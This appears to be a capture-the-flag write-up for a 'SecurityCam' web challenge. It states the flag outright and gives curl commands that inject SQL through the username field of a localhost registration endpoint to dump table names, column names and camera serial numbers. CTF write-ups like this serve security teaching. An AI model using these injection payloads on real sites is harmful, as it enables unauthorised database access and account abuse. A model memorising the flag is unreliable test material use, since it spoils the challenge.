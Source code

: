 # SecurityCam NEED VIDEO FROM FRANK #
SecurityCam is a website where users can login to remotely view their camera feeds.
After logging in it serves a video which contains the flag.

## Solution ##

The flag (MCA{oM0kcuLkPk}) can be found in the video.  The video can be accessed by logging in to the website.
Table name can be found by running 
`curl --data "usr=';  SELECT table_name from information_schema.tables -- " localhost/register`
Column names can be found by running 
`curl --data "usr=';  select column_name from information_schema.columns where table_name='cameras'  -- " localhost/register`
Serial number can be found by running
`curl --data "usr='; select serial from cameras where 1=1 -- " localhost/register`
Then register a new account (all that is really needed is something for a username and the serial number from the database).
Successful registration shows the video that contains the flag.
